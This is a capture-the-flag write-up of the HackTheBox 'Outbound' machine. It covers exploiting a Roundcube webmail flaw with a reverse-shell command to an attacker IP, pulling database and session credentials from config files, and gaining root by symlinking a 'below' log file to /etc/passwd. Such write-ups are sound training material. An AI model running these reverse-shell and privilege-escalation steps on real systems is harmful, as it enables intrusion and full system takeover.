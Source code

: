 ```yaml
---
title: "Outbound HacktheBox Writeup"
date: "Jul 29, 2025"
description: "Detailed writeup for Outbound HacktheBox"
image: "/images/outbound.png"
---
```


 🚀 Introduction

In this challenge, we first Exploring a webmail service and exploiting a known vulnerability that allowed us to gain initial access. After obtaining a user account, we looked deeper into the server and found another security issue that let us escalate our privileges to become the root user, giving full control of the machine. This walkthrough details each step clearly, making it easy to follow even for beginners

Let's dive right in and start solving this interesting machine:-

Returning to HackTheBox after a long break, I discovered an intriguing new machine—Outbound. Eager to dust off my hacking skills, I quickly jumped into action by setting up the VPN connection:

sudo openvpn outbound.ovpn

🔍 Reconnaissance

Next, I performed an Nmap scan:

```bash
nmap -sC -sV -oN scan.txt 10.10.11.77
```
I identified two open ports:
![namp](/outbound.png)


22 (SSH)

80 (HTTP)

🌐 Web Enumeration

Visiting http://10.10.11.77 redirected me to mail.outbound.htb, prompting me to update my /etc/hosts file:

```bash
10.10.11.77 mail.outbound.htb
```
After refreshing the page, I found a Roundcube webmail login with provided credentials directly on the page.
![machine](/htb.png)

Logging in, I immediately noticed the Roundcube version had a known vulnerability (CVE-2025-49113).

Quick reminder: Always check software versions for known CVEs!

🛠️ Exploitation

I set up a listener on my attacker machine:
```bash
nc -nlvp 4444
```
Then, I cloned and executed the exploit:
```bash
git clone https://github.com/fearsoff-org/CVE-2025-49113.git
cd CVE-2025-49113
php CVE-2025-49113.php http://mail.outbound.htb tyler LhKL1o9Nm3X2 "bash -c 'bash -i >& /dev/tcp/10.10.16.32/4444 0>&1'"
```
The exploit executed successfully, giving me a shell as www-data.

![www-data](/htb2.png)

📂 Exploring Files

Navigating the server, I discovered a crucial config directory:

/var/www/html/roundcube/public_html/roundcube/config

Inside config.inc.php, 

![Image](/config.png)

I found database credentials:

```bash
DB User: roundcube
DB Pass: RCDBPass2025
DB Name: roundcube
```
💾 Database Exploration

With the credentials, I accessed the database:
```bash
mysql -u roundcube -pRCDBPass2025 roundcube
SHOW TABLES;
SELECT * FROM session;
```
The session data was Base64-encoded. Decoding using CyberChef.io,
![Base64](/sessions.png)

I initially found Tyler’s credentials (already known), then Jacob’s encrypted session data.

Jacob's password was encrypted using Triple DES (DES-EDE3-CBC). Leveraging the encryption key (rcmail-!24ByteDESkey*Str) from config.inc.php, I decrypted Jacob’s password successfully.
![decode](/decode.png)
🔑 SSH Access

With Jacob’s decrypted password, 

![jacobpass](/jacobpass.png)

I accessed via SSH:
```bash
ssh jacob@10.10.11.77
```
Jacob's SSH password:

gY4Wr3a1evp4

Successfully obtained the user flag.

![userflag](/userflag.png)

🛡️ Privilege Escalation

Checking Jacob’s privileges:
```bash
sudo -l
```

Output:
```bash
(ALL : ALL) NOPASSWD: /usr/bin/below *, !/usr/bin/below --config*, !/usr/bin/below --debug*, !/usr/bin/below -d*
```
Jacob could run /usr/bin/below as root, excluding certain arguments.

Searching vulnerabilities related to /usr/bin/below, I discovered CVE-2025-27591, allowing arbitrary file manipulation through logs. I executed the following steps:

Exploit Steps:

Navigate to log directory:
```bash
cd /var/log/below
```
Create a malicious user entry:
```bash
echo 'root2:aacFCuAIHhrCM:0:0:,,,:/root:/bin/bash' > root2
```
Remove original log file:
```bash
rm error_root.log
```
Create a symbolic link to /etc/passwd:
```bash
ln -s /etc/passwd /var/log/below/error_root.log
```
Trigger vulnerability:
```bash
sudo /usr/bin/below
```
Overwrite /etc/passwd:
```bash
cp root2 error_root.log
```
Switch to root-level user:
```bash
su root2
```
![rootq](/root.png)

Root access achieved. 🎉 Successfully obtained the root flag!
[![Outbound Machine Achievement](/machine.png)](https://labs.hackthebox.com/achievement/machine/205810/672)